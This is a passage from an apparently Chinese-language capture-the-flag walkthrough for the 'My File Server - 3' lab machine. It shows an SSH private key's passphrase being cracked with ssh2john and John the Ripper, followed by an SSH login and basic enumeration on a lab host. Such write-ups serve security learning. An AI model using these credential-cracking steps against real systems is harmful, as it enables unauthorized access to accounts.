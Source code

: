 - 成功获得密码,进行登录尝试

- ```shell
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/CF_03]
  └─$ ssh2john id_rsa > id_rsa.hash                                     
  
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/CF_03]
  └─$ john --format=ssh id_rsa.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 4 OpenMP threads
  Proceeding with single, rules:Single
  Press 'q' or Ctrl-C to abort, almost any other key for status
  Almost done: Processing the remaining buffered candidate passwords, if any.
  Proceeding with wordlist:/usr/share/john/password.lst
  password         (id_rsa)     
  1g 0:00:00:00 DONE 2/3 (2023-08-23 08:56) 50.00g/s 603100p/s 603100c/s 603100C/s 123456..maggie
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  ```

- 获得shell

- ```shell
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/CF_03]
  └─$ john --show id_rsa.hash 
  id_rsa:password
  
  1 password hash cracked, 0 left
  
  ┌──(kali㉿kali)-[~/Desktop/walkthroughs/CF_03]
  └─$ ssh -i id_rsa smbuser@192.168.2.15       
  
     ##############################################################################################
     #                                      InfoSec Warrior                                       #
     #                         --------- www.InfoSecWarrior.com ------------                      #
     #                                    My File Server - 3                                      #
     #                        Just a simple addition to the problem                               #
     #                               Designed By :- CyberKnight                                   #
     #                                Twitter    :- @CyberKnight00                                #
     ##############################################################################################
  
  Enter passphrase for key 'id_rsa': 
  Last login: Thu Mar 19 10:15:35 2020 from 192.168.56.1
  [smbuser@fileserver ~]$ whoami
  smbuser
  [smbuser@fileserver ~]$ id
  uid=1000(smbuser) gid=1000(smbuser) groups=1000(smbuser)
  [smbuser@fileserver ~]$ uname -a
  Linux fileserver 3.10.0-229.el7.x86_64 #1 SMP Fri Mar 6 11:36:42 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
  [smbuser@fileserver ~]$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
      link/ether 00:0c:29:48:70:31 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.15/24 brd 192.168.2.255 scope global dynamic ens32
         valid_lft 1313sec preferred_lft 1313sec
      inet6 fe80::20c:29ff:fe48:7031/64 scope link 
  ```